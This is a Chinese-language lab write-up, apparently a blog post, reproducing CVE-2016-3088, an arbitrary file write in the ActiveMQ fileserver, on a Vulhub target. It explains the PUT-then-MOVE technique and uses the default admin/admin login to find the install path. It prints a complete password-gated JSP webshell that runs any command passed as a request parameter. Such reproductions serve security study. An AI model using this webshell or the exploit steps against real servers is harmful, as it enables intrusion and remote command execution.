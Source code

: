 ```yaml
---
layout: post
title: "CVE-2016-3088漏洞复现"
date: "2023-04-26T01:06:20.100Z"
---
```

CVE-2016-3088漏洞复现
=================

1.背景介绍。

ActiveMQ的web控制台分三个应用，admin、api和fileserver，其中admin是管理员页面，api是接口，fileserver是储存文件的接口；admin和api都需要登录后才能使用，fileserver无需登录。

fileserver是一个RESTful API接口，我们可以通过GET、PUT、DELETE等HTTP请求对其中存储的文件进行读写操作，其设计目的是为了弥补消息队列操作不能传输、存储二进制文件的缺陷，但后来发现：

1.  其使用率并不高
2.  文件操作容易出现漏洞

所以，ActiveMQ在5.12.x~5.13.x版本中，已经默认关闭了fileserver这个应用（你可以在conf/jetty.xml中开启之）；在5.14.0版本以后，彻底删除了fileserver应用。

在测试过程中，可以关注ActiveMQ的版本，避免走弯路。

2.环境介绍。

采用kali搭建Vulhub靶场。

靶机：127.0.0.1

环境监听61616端口和8161端口，其中8161为web控制台端口，本漏洞就出现在web控制台中。

访问`http://172.18.0.1:8161/`看到web页面，说明环境已成功运行。

3.漏洞复现。

本漏洞出现在fileserver应用中，漏洞原理其实非常简单，就是fileserver支持写入文件（但不解析jsp），同时支持移动文件（MOVE请求）。所以，我们只需要写入一个文件，然后使用MOVE请求将其移动到任意位置，造成任意文件写入漏洞。

文件写入有几种利用方法：

1.  写入webshell
2.  写入cron或ssh key等文件
3.  写入jar或jetty.xml等库和配置文件

写入webshell的好处是，门槛低更方便，但前面也说了fileserver不解析jsp，admin和api两个应用都需要登录才能访问，所以有点鸡肋；写入cron或ssh key，好处是直接反弹拿shell，也比较方便，缺点是需要root权限；写入jar，稍微麻烦点（需要jar的后门），写入xml配置文件，这个方法比较靠谱，但有个鸡肋点是：我们需要知道activemq的绝对路径。

分别说一下上述几种利用方法。

（1）写入webshell

我们首先要通过账号密码登录

账号：admin
密码：admin

之后访问http://127.0.0.1:8161/admin/test/systemProperties.jsp来获取真实路径

![](https://img2023.cnblogs.com/blog/2816557/202304/2816557-20230425105045888-1561167201.png)

进入/fileserver/目录，抓包写入webshell

![](https://img2023.cnblogs.com/blog/2816557/202304/2816557-20230425190732062-1933554248.png)

<%
// 如果请求参数pwd的值为"023"
if("023".equals(request.getParameter("pwd"))){
    // 获取执行命令的参数i
    String cmd = request.getParameter("i");
    // 执行命令并获取子进程的输入流
    java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();
    int a = -1;
    byte\[\] b = new byte\[2048\];
    // 输出<pre>标签
    out.print("<pre>");
    // 读取子进程的输出流并输出
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    // 输出</pre>标签
    out.print("</pre>");
}
%>

注意这时我们虽然写入文件，但我们去访问这个文件时会发现.txt文件并没有被解析

![](https://img2023.cnblogs.com/blog/2816557/202304/2816557-20230425191123522-1497909693.png)

 所以我们还需要将这个文件去移动到一个有执行jsp文件权限的目录下，这时我们就用到了我们在之前查询到的真实路径，还是通过抓包来操作

![](https://img2023.cnblogs.com/blog/2816557/202304/2816557-20230425191724474-1409899531.png)

 我们将webshell写入api目录下，进入/api/查看

![](https://img2023.cnblogs.com/blog/2816557/202304/2816557-20230425191852850-1378929351.png)

 写入成功，进入后根据小马参数构建命令即可

![](https://img2023.cnblogs.com/blog/2816557/202304/2816557-20230425192154694-1624940718.png)

 除此之外，还有其他两种方法利用，但笔者在复现过程中遇到问题较多，没有进行下去，哪位大佬有成功浮现的，踢我一下。
